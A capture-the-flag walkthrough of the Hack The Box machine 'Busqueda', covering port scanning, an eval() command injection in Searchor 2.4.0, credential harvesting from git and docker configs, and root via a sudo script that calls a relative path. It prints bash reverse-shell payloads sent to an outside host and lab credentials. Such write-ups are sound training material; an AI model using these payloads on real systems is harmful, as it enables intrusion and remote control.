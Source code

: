 # HTB - Busqueda

#### Ip: 10.10.11.208
#### Name: Busqueda
#### Rating: Easy

----------------------------------------------------------------------

![Busqueda.png](../assets/busqueda_assets/Busqueda.png)


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Busqueda]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.208 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-01 10:06 CST
Nmap scan report for 10.10.11.208
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.54 seconds
```

We can see the site is attempting to redirect to http://searcher.htb/ so lets add that to our `/etc/hosts` file.


Navigating to the site on port 80 we find a page with search functionality:

![busqueda_site.png](../assets/busqueda_assets/busqueda_site.png)

At the bottom of the page we see it is running Flask as well as Searchor 2.4.0:

![busqueda_version.png](../assets/busqueda_assets/busqueda_version.png)

Looking for exploits for searcher 2.4.0 we find this GitHub feauturing a bash arbitrary code injection exploit:

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Per the GitHub ReadMe we see it is specifically exploiting the function call `eval()` in which it is able to execute system commands:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
	  ...
```

The script injects:
```bash
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i'))
```

Into the function via a POST request using CURL:
```bash
curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
```

### Exploitation

We can exploit this vulnerability with the exploit script with no changes needed to the code:

![busqueda_shell.png](../assets/busqueda_assets/busqueda_shell.png)

getting a shell back as user svc.

We are now able to grab the user.txt flag:

![busqueda_user.png](../assets/busqueda_assets/busqueda_user.png)

### Privilege Escalation

Looking more closely at the svc home folder we find a .gitconfig file:

```
svc@busqueda:~$ cat .gitconfig
cat .gitconfig
[user]
	email = cody@searcher.htb
	name = cody
[core]
	hooksPath = no-hooks
```

Lets hang onto this info and keep enumerating.

After loading up and running linpeas.sh to help enumerate a privilege escalation vector, we notice there is a gitea vhost running that was missed during enumeration. Lets add that to `/etc/hosts` and check it out:

![busqueda_vhost.png](../assets/busqueda_assets/busqueda_vhost.png)

```
10.10.11.208    searcher.htb gitea.searcher.htb
```

Heading to the gitea site we find a sign-in button:

![busqueda_gitea.png](../assets/busqueda_assets/busqueda_gitea.png)

This seems like progress, but we still don't have a password for cody.

Going back to my shell for further enumeration I find a .git file in `/var/www/app` that has a config file containing cody's password:

![busqueda_password.png](../assets/busqueda_assets/busqueda_password.png)

cody:jh1usoih2bkjaspwe92

Armed with this password lets see if we can use it to run `sudo -l` to check if we can run anything with elevated permissions:

```text
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We are unable to read this script:
```text
svc@busqueda:/var/www/app/.git$ cat /opt/scripts/system-checkup.py
cat: /opt/scripts/system-checkup.py: Permission denied
```

But trying to run it to read a file normally prohibted to lower level users gets us this error:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py /etc/shadow

Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

We can view the docker containers:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   13 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   13 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Lets inspect the gitea container. To do that we'll also need to declare the format:
```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```
I had to reference the docker docs (ha) for this. I am super bad with Docker and it is definitely something I need to learn more about:

![busqueda_docker_docs.png](../assets/busqueda_assets/busqueda_docker_docs.png)

```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' gitea

--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Nice! Looks like we've discovered another credential: yuiu1hoiu4i5ho1uh

We can use this to succesfully log into the gitea site as the administrator:

![busqueda_login.png](../assets/busqueda_assets/busqueda_login.png)

Taking a look at the sytem-checkup.py file we see it also is executing the full-checkup.sh file in `/opt/scripts`

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
```
Because this doesn't contain the full path for full-checkup.sh, we may be able to create our own malicious file calle full-checkup.sh, and execute it using our sudo permissions.

Lets create a file called full-checkup.sh containing a bash reverse shell:
```bash
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.60/4444 0>&1
```

We can make it executable with:
```bash
chmod +x full-checkup.sh
```

And finally we can set up a nc listener, and execute it using our sudo permissions:

```text
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

This catches us a shell back as root and we can grab the final flag:

![busqueda_root.png](../assets/busqueda_assets/busqueda_root.png)

Thanks for folllowing along!

-Ryan





